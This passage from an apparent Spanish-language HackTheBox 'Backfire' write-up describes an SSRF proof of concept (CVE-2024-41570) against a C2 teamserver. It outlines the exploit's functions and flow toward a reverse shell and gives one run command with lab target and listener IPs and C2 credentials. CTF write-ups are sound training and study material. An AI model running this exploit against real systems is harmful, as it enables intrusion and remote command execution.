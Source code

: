 Encontramos un PoC SSRF (CVE-2024-41570) que permite realizar una redirección de puerto a un servicio remoto.

[Github](https://gist.github.com/pich4ya/bda16a3b2104bea411612f20d536174b)

### Análisis de código

```python
decrypt()      # Descifra datos usando AES en modo contador
encrypt()      # Cifra datos usando AES en modo contador
int_to_bytes() # Convierte enteros a bytes
```

```python
register_agent()         # Gestiona el registro de agentes
open_socket()           # Establece conexión con el teamserver
write_socket()          # Envía datos al socket
read_socket()           # Recibe datos del socket
build_websocket_frame() # Construye frames WebSocket enmascarados
generate_sha3_256()     # Genera hashes SHA3-256
```

### Flujo de ejecución

1. **Inicialización**
   - Configura variables esenciales (`magic`, `teamserver_listener_url`, `headers`)
   - Establece parámetros de identidad (`agent_id`)
   - Inicializa claves criptográficas (`AES_Key`, `AES_IV`)

2. **Establecimiento de conexión**
   - Registra el agente usando `register_agent()`
   - Abre socket al teamserver con `open_socket()`
   - Construye y envía payload JSON para login C2

3. **Configuración del shell reverso**
   - Genera nombre de servicio y puerto aleatorios
   - Construye payload JSON para el servicio
   - Envía configuración mediante WebSocket frame

4. **Ejecución de comandos**
   - Prepara payload de inyección
   - Envía mediante WebSocket frame
   - Recibe y procesa respuesta del servidor


### Ejecución del PoC

```bash
python3 ssrf_poc.py -t https://10.10.11.49 -l 10.10.16.71 -c2user ilya -c2pass CobaltStr1keSuckz!
```

[![SSRF PoC](/assets/img/writeups/hackthebox/backfire-hackthebox/poc_shell.png)](/assets/img/writeups/hackthebox/backfire-hackthebox/poc_shell.png)
